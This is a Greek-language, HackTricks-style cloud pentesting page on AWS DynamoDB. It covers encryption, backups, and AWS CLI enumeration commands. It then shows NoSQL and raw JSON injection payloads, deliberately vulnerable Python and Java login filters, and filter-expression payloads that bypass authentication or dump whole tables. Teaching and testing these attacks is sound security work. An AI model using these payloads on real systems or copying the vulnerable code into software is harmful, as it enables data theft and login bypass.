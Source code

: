 # AWS - DynamoDB Enum

{{#include ../../../banners/hacktricks-training.md}}

## DynamoDB

### Basic Information

Η Amazon DynamoDB παρουσιάζεται από την AWS ως μια **πλήρως διαχειριζόμενη, serverless, βάση δεδομένων NoSQL τύπου key-value**, σχεδιασμένη για την υποστήριξη εφαρμογών υψηλής απόδοσης ανεξαρτήτως μεγέθους. Η υπηρεσία εξασφαλίζει ισχυρές δυνατότητες, συμπεριλαμβανομένων των εγγενών μέτρων ασφαλείας, αδιάλειπτων αντιγράφων ασφαλείας, αυτοματοποιημένης αναπαραγωγής σε πολλές περιοχές, ενσωματωμένης προσωρινής μνήμης και βολικών εργαλείων εξαγωγής δεδομένων.

Στο πλαίσιο της DynamoDB, αντί να δημιουργηθεί μια παραδοσιακή βάση δεδομένων, **δημιουργούνται πίνακες**. Κάθε πίνακας απαιτεί τον καθορισμό ενός **partition key** ως αναπόσπαστο μέρος του **κύριου κλειδιού του πίνακα**. Αυτό το partition key, ουσιαστικά μια **τιμή hash**, παίζει κρίσιμο ρόλο τόσο στην ανάκτηση αντικειμένων όσο και στη διανομή δεδομένων σε διάφορους κόμβους. Αυτή η διανομή είναι καθοριστική για τη διατήρηση τόσο της κλιμάκωσης όσο και της διαθεσιμότητας της βάσης δεδομένων. Επιπλέον, υπάρχει η επιλογή να προστεθεί ένα **sort key** για περαιτέρω βελτίωση της οργάνωσης των δεδομένων.

### Encryption

Από προεπιλογή, η DynamoDB χρησιμοποιεί ένα KMS key που \*\*ανήκει στην Amazon DynamoDB,\*\* όχι καν στο διαχειριζόμενο κλειδί της AWS που τουλάχιστον ανήκει στον λογαριασμό σας.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Είναι δυνατή η **προγραμματισμένη** δημιουργία **αντιγράφων ασφαλείας πίνακα** ή η δημιουργία τους κατόπιν **αιτήματος**. Επιπλέον, είναι επίσης δυνατή η ενεργοποίηση της **Ανάκτησης σε συγκεκριμένο χρόνο (PITR) για έναν πίνακα.** Η ανάκτηση σε συγκεκριμένο χρόνο παρέχει συνεχόμενα **αντίγραφα ασφαλείας** των δεδομένων σας στη DynamoDB για **35 ημέρες** για να σας βοηθήσει να προστατευθείτε από τυχαίες εγγραφές ή διαγραφές.

Είναι επίσης δυνατή η εξαγωγή **των δεδομένων ενός πίνακα σε S3**, αλλά ο πίνακας πρέπει να έχει **ενεργοποιημένο το PITR**.

### GUI

Υπάρχει ένα GUI για τοπικές υπηρεσίες Dynamo όπως το [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), κ.λπ., που θα μπορούσε να είναι χρήσιμο: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Μη Αυθεντική Πρόσβαση

{{#ref}}
../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md
{{#endref}}

### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-dynamodb-privesc.md
{{#endref}}

### Μετά την Εκμετάλλευση

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### Επιμονή

{{#ref}}
../aws-persistence/aws-dynamodb-persistence.md
{{#endref}}

## Εισαγωγή DynamoDB

### SQL Εισαγωγή

Υπάρχουν τρόποι πρόσβασης στα δεδομένα του DynamoDB με **SQL σύνταξη**, επομένως, είναι επίσης δυνατές οι τυπικές **SQL εισαγωγές**.

{{#ref}}
https://book.hacktricks.xyz/pentesting-web/sql-injection
{{#endref}}

### NoSQL Εισαγωγή

Στο DynamoDB μπορούν να χρησιμοποιηθούν διαφορετικές **συνθήκες** για την ανάκτηση δεδομένων, όπως σε μια κοινή NoSQL εισαγωγή. Αν είναι δυνατό να **αλυσιδωθούν περισσότερες συνθήκες για την ανάκτηση** δεδομένων, θα μπορούσατε να αποκτήσετε κρυφά δεδομένα (ή να εξάγετε ολόκληρο τον πίνακα).\
Μπορείτε να βρείτε εδώ τις υποστηριζόμενες συνθήκες από το DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Σημειώστε ότι υποστηρίζονται **διαφορετικές συνθήκες** αν τα δεδομένα προσπελάζονται μέσω **`query`** ή μέσω **`scan`**.

> [!NOTE]
> Στην πραγματικότητα, οι ενέργειες **Query** χρειάζονται να καθορίσουν τη **συνθήκη "EQ" (ίσο)** στο **κύριο** κλειδί για να λειτουργήσουν, καθιστώντας το πολύ **λιγότερο επιρρεπές σε NoSQL εισαγωγές** (και επίσης περιορίζοντας πολύ τη λειτουργία).

Αν μπορείτε να **αλλάξετε τη σύγκριση** που εκτελείται ή να προσθέσετε νέες, θα μπορούσατε να ανακτήσετε περισσότερα δεδομένα.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{{#ref}}
https://book.hacktricks.xyz/pentesting-web/nosql-injection
{{#endref}}

### Raw Json injection

> [!CAUTION]
> **Αυτή η ευπάθεια βασίζεται στο dynamodb Scan Filter το οποίο είναι πλέον απαρχαιωμένο!**

**DynamoDB** δέχεται **Json** αντικείμενα για **αναζήτηση** δεδομένων μέσα στη βάση δεδομένων. Αν διαπιστώσετε ότι μπορείτε να γράψετε στο json αντικείμενο που αποστέλλεται για αναζήτηση, θα μπορούσατε να κάνετε dump της βάσης δεδομένων, όλων των περιεχομένων.

Για παράδειγμα, εισάγοντας σε ένα αίτημα όπως:
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
ένας επιτιθέμενος θα μπορούσε να εισάγει κάτι σαν:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

διορθώστε την κατάσταση "EQ" αναζητώντας το ID 1000 και στη συνέχεια αναζητώντας όλα τα δεδομένα με μια συμβολοσειρά Id μεγαλύτερη από 0, που είναι όλα.

Ένα άλλο **ευάλωτο παράδειγμα χρησιμοποιώντας μια σύνδεση** θα μπορούσε να είναι:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Αυτό θα ήταν ευάλωτο σε:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Ορισμένα SDK επιτρέπουν τη χρήση μιας συμβολοσειράς που υποδεικνύει τη φιλτράρισμα που θα εκτελεστεί όπως:
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
Πρέπει να γνωρίζετε ότι η αναζήτηση στο DynamoDB για **υποκατάσταση** μιας **τιμής** χαρακτηριστικού σε **εκφράσεις φίλτρου** κατά την σάρωση των στοιχείων, οι τόκεν θα πρέπει να **ξεκινούν** με τον χαρακτήρα **`:`**. Τέτοιοι τόκεν θα **αντικατασταθούν** με την πραγματική **τιμή χαρακτηριστικού κατά την εκτέλεση**.

Επομένως, μια σύνδεση όπως η προηγούμενη μπορεί να παρακαμφθεί με κάτι σαν:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{{#include ../../../banners/hacktricks-training.md}}
